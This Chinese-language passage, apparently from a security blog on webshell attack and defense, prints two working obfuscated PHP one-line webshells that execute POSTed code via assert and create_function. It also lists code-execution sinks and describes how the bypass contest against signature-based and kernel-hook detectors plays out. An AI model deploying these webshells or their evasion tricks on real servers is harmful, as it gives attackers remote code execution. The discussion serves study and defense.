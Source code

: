 ```php
<?php 
$a=base64_decode("YXNzZXJ0");
$$a($_POST['cmd']);
?>

<?php
$_uU=chr(99).chr(104).chr(114);$_cC=$_uU(101).$_uU(118).$_uU(97).$_uU(108).$_uU(40).$_uU(36).$_uU(95).$_uU(80).$_uU(79).$_uU(83).$_uU(84).$_uU(91).$_uU(49).$_uU(93).$_uU(41).$_uU(59);$_fF=$_uU(99).$_uU(114).$_uU(101).$_uU(97).$_uU(116).$_uU(101).$_uU(95).$_uU(102).$_uU(117).$_uU(110).$_uU(99).$_uU(116).$_uU(105).$_uU(111).
$_uU(110);
$_=$_fF("",$_cC);
@$_();
?>
```

总之就是，防守方不断更新规则库，进攻方不断尝试变形，有来有回

下面我罗列了常用的一些能引起代码执行的方式：

```php
eval
preg_replace 函数中的 /e 修饰符 create_function
assert //PHP7没了，PHP5直接明文传 payload 会因为引号问题执行不成功
call_user_func
call_user_func_array
usort
uksort
array_map
array_walk
array_filter
$a($b) // 动态组装代码执行
unserialize //反序列化导致代码执行
```

#### 2. Hook 进 PHP 内核，基于行为查杀

调用 eval 等代码执行的函数，最终会调用 php 内核的 zend_compile_string 函数。所以呢，我们只用 Hook 住这个函数，就差不多了。

> 提一嘴子，D盾、云锁等安全防护产品说的 「免疫一句话 WebShell」 就是基于这个原理来的。任你一句话再怎么变形，最终还是逃不过这道门。

哦对了，说到 D 盾的一句话免疫机制，D哥之前说过，只杀「**参数 eval**」，所以还是给了一点点可以使用 eval 的机会。变态一点的，可以拦下所有的 eval, 走文件白名单机制，一句话就凉凉了吧？

以前老版本的云锁，仅仅是 Hook 了 eval 执行代码这一块，没有进行太多的 Hook，绕过的方法呢，就是用「大马」或者蚁剑的「CUSTOM」类的 webshell，直接把功能性代码写到  webshell 里，然后只传一些像 ABCD 这种标识符过去。

现在新版本的这些侵入式的防护产品，除了 Hook 了代码执行这一块，也一并把文件IO，命令执行这些都做了，根据 web 文件的行为来判断是否是 webshell。典型的比如：读取了非 web 目录下的文件

**遇到这种，送你4字箴言「自求多福」。不在本文讨论范围之内，原因是我太菜了，讨论不出来个啥。**

#### 3. 中间件流量上的攻防

本来想叫WAF类的，感觉不太合适，改叫中间件了
